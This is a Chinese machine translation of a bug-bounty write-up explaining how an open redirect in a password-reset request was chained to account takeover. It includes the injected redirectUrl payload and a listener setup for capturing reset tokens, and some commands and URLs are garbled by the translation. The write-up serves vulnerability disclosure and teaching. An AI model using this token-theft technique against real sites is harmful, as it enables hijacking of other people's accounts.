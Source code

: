 # 我是如何把 P4 和 P2 联系起来的

> 原文：<https://infosecwriteups.com/how-i-chained-p4-to-p2-open-redirection-to-full-account-takeover-a28b09a94bf7?source=collection_archive---------0----------------------->

大家好，

我希望你一切都好。很久以后，我带着一篇关于我如何将开放重定向链接到完整 ATO 的新文章回来了。我简单讲个故事吧。:P

我报告了“通过引用者响应的令牌泄漏”。过了一段时间，这个问题解决了，所以我决定再次调查这个问题来验证。然后我注意到一个带有“redirectUrl”的端点，在修复这个问题时，他们做了一些更改，并在 HTTP 请求上添加了一个新参数，然后我将 redirect URL 更改为 google.com。但是当我检查那里的邮件时，它没有被注射 google.com。但打开链接后，它成功地重定向到 google.com。

首先，我想尽快报告，但我想是否有可能连锁？如果可能的话，这是值得报道的。然后我注意到 RedirectUrl=是用 reset 标记反映的。然后我决定举报。

这类似于主机头注入，0auth 缺陷，但在不同的场景。我认为这将有助于人们找到类似的问题，所以我写了这篇文章与你分享。如果我将其报告为开放重定向，它将被接受为 p4，即 Bugcrowd 上的低优先级风险 bug。

关于**打开重定向**:

当用户访问位于受信任网站上的链接时，攻击者能够将用户重定向到不受信任的站点，就会出现无效重定向漏洞。这种漏洞通常也称为开放重定向。

Portswigger 实验室:[https://ports wigger . net/academy/labs/launch/67ab 900d 88 BCD 094478d 14d 157338 de 5 BF 87302 c 124 c 802219 a 8 ef 29 a 4 a 65 e0f？referer = % 2f web-security % 2f 基于 dom 的% 2f open-redirection % 2f flab-DOM-open-redirection](https://portswigger.net/academy/labs/launch/67ab900d88bcd094478d14d157338de5bf87302c124c802219a8ef29a4a65e0f?referrer=%2fweb-security%2fdom-based%2fopen-redirection%2flab-dom-open-redirection)

重现此问题的步骤:

1.  首先我通过 https://redacted.vulnsite.com/login 的[登录，然后点击忘记密码。](https://redacted.vulnsite.com/login)

![](img/f002696e070dee2a178b43587aa12ac3.png)

易受攻击网站的 UI。

2.然后我打开 burp 套件拦截请求，点击“忘记密码”，输入受害者邮件。将请求发送到中继器，并将请求更改为:

![](img/0bbc0915b113b0fc3d0ae83052c608b5.png)

HTTP 请求之前:

并打开一个终端，运行这个命令“python3 -m HTTP。服务器 80”来接收请求。

*然后我把请求改成了{ " redirectUrl ":" http://127 . 0 . 01/？reset-result = { 0 }&reset-callback-uri = { 1 } " }*

![](img/5b0738628a9be75b2fa88aa8e7d4cfe2.png)

在 HTTP 请求中将 redirectUrl 更改为 127.0.01。

3.当我作为受害者打开重置链接时。它重定向到[http://127 . 0 . 01/Secret _ reset](http://127.0.01/reset)_ token

4.当我检查重置链接得到的响应时。

现在，我只需将网址([https://redacted.vulnsite.com](https://redacted.vulnsite.com/login)/[Secret _ reset](http://127.0.01/reset)_ token)替换为重置链接，就可以重置密码了。现在，我们可以设置一个新的密码，这将导致完全接管帐户。

![](img/aedb485b1de9602e66aa902c29ad0b50.png)

Bugcrowd ASE 的回应！

因为它类似于主机报头注入。Bugcrowd 应用程序安全工程师更改了 VRT 作为主机标头注入，并提供了很好的注释！❤ :)

**我也在学习，但以下是我的一些心得:**

1.  首次搜寻漏洞披露计划(基于点数、名人堂、基于奖品的竞争较少)。
2.  我建议你学习一些漏洞披露程序的方法，并将其应用于付费程序。如果我们直接转到公共付费项目，出现错误或重复的几率会很低，这会导致挫败感。
3.  花些时间了解这个平台。例如，Bugcrowd 接受限速问题，但 Hackerone 不接受。(也取决于程序)
4.  仔细阅读计划政策和范围。
5.  制作一个清单并应用它。即通过将 POST 更改为 GET 的 CSRF、密码重置页面中的 SQL、通过更改标头的主机标头注入等。
6.  在报告之前，了解问题的利用和影响。
7.  固定后寻找旁路。

我们将感谢您的反馈，以便改进和撰写更多内容。

感谢您抽出时间阅读！快乐的黑客/狩猎！

通过以下方式与我联系:

**推特**:[https://twitter.com/bishal0x01](https://twitter.com/bishal0x01)

**insta gram**:[https://www.instagram.com/bishal0x01/](https://www.instagram.com/bishal0x01/)

**YouTube**:[https://www.youtube.com/therbishal](https://www.youtube.com/therbishal)

参考资料:[https://blog . detect ify . com/2016/08/15/owasp-top-10-un validated-redirects-and-forwards-10/](https://blog.detectify.com/2016/08/15/owasp-top-10-unvalidated-redirects-and-forwards-10/)

[https://portswigger.net/web-security/host-header](https://portswigger.net/web-security/host-header)